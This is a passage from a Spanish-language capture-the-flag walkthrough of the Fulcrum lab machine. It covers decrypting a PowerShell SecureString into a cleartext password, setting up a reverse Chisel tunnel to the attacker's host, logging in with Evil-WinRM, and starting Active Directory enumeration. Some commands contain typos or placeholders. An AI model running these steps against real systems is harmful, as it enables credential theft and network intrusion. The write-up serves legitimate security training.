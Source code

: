 ```powershell
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```

Usaremos una herramienta que viene por defecto en parrot que simula una **PowerShell** de nombre **pwsh** y pegaremos todo el script integro:
![[Pasted image 20230812021558.png]]

A continuacion, ingresaremos algunos comandos extras para decodear la contraseña:
```powershell
PS> $Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($4)
PS> $4
System.Security.SecureString
PS> $result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
PS> $result 
M4ng£m£ntPa55
```

Con estas credenciales podemos validar si tenemos acceso a **Win-RM** pero antes, tenemos que hacer **Remote Port Forwarding** con **Chisel** para corroborarlo.

------------
#### PIVOTING 1 - Tunneling with Chisel + Evil-WinRM  
Descargaremos chisel y lo subiremos a la maquina maquina. Lo ejecutaremos en modo cliente de la siguiente manera:
```
# chmod +x chisel; ./chisel client 10.10.10.130 R:5985:192.168.122.228:5985 & disown
```

Y en nuestra maquina lo vamos a ejecutar en modo servidor de esta manera:
```
# chmod +x chisel; ./chisel server --reverse -p 1234 & disown
```

----------
#### Gaining access to a Windows system  
Ahora solo queda conectarnos con **Evil-WinRm**:
```
# evil-winr -i 10.10.10.10 -u 'user' -p 'password'
```

y ya estariamos dentro de la maquina como el usuario **webuser**.

----------------
#### PowerView.ps1 - Active Directory Users Enumeration (Playing with Get-DomainUser)
Enumerando la maquina **windows**, encontramos un archivo de configuración en **inetpub\\wwwroot** que contiene el posible nombre de dominio y credenciales:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration xmlns="http://schemas.microsoft.com/.NetConfiguration/v2.0">
    <appSettings />
    <connectionStrings>
        <add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
    </connectionStrings>
    <system.web>
        <membership defaultProvider="ADProvider">
            <providers>
```